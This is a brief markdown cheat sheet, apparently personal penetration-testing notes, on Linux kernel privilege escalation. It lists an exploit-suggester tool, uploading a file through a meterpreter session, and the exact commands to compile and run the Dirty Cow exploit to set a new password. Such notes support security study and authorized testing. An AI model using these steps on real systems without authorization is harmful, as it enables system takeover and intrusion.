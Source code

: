 # Linux Kernel Exploitation

**Tool** -- Linux-Exploit-Suggester  
https://github.com/The-Z-Labs/linux-exploit-suggester

_Kernel Exploits can crash system_  
1. Upload file through meterpreter session ```upload (filename)```
2. Set permissions to run ```chmod +x (filename)```

### Dirty Cow
This is a privilege escalation vulnerability  
https://dirtycow.ninja/  
https://www.exploit-db.com/exploits/40839  
Compile - ```gcc -pthread dirty.c -o dirty -lcrypt```  
Run the New binary -  ```"./dirty" or "./dirty my-new-password"```
